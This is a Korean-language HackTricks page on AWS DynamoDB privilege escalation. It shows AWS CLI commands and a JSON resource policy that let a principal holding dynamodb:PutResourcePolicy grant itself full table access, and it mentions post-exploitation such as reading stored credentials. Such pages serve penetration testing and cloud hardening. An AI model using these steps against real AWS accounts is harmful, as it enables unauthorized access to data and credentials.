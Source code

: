 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

dynamodb에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, 그리고 선택적으로 `dynamodb:GetResourcePolicy`

2024년 3월부터 AWS는 DynamoDB에 대해 *리소스 기반 정책*을 제공합니다 ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

따라서, 테이블에 대해 `dynamodb:PutResourcePolicy`가 있다면, 자신이나 다른 주체에게 테이블에 대한 전체 액세스를 부여할 수 있습니다.

무작위 주체에게 `dynamodb:PutResourcePolicy`를 부여하는 것은 종종 우연히 발생하는데, 관리자가 `dynamodb:Put*`를 부여하면 주체가 데이터베이스에 항목을 추가할 수 있다고 생각하거나, 2024년 3월 이전에 해당 권한 세트를 부여했기 때문입니다...

이상적으로는, 다른 잠재적으로 중요한 권한을 덮어쓰지 않도록 `dynamodb:GetResourcePolicy`도 가지고 있어야 하며, 필요한 추가 권한만 주입해야 합니다:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
현재 정책을 가져올 수 없는 경우, 다음 정책을 사용하여 테이블에 대한 전체 액세스를 귀하의 주체에게 부여하십시오:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
리소스 정책을 설정하려면 `policy.json` 정책 문서가 준비되어 있어야 합니다.
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
이제 필요한 권한을 얻었을 것입니다.

### 포스트 익스플로잇

제가 아는 한, AWS에서 **일부 AWS `dynamodb` 권한만으로 권한을 상승시키는 다른 직접적인 방법은 없습니다**. 테이블에서 **민감한** 정보를 읽을 수 있고(여기에는 AWS 자격 증명이 포함될 수 있음) **테이블에 정보를 쓸 수 있습니다**(이로 인해 lambda 코드 주입과 같은 다른 취약점이 발생할 수 있음) 하지만 이러한 모든 옵션은 이미 **DynamoDB 포스트 익스플로잇 페이지**에서 고려되었습니다:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: 데이터 스트림을 악용하여 데이터 읽기

{{#include ../../../banners/hacktricks-training.md}}
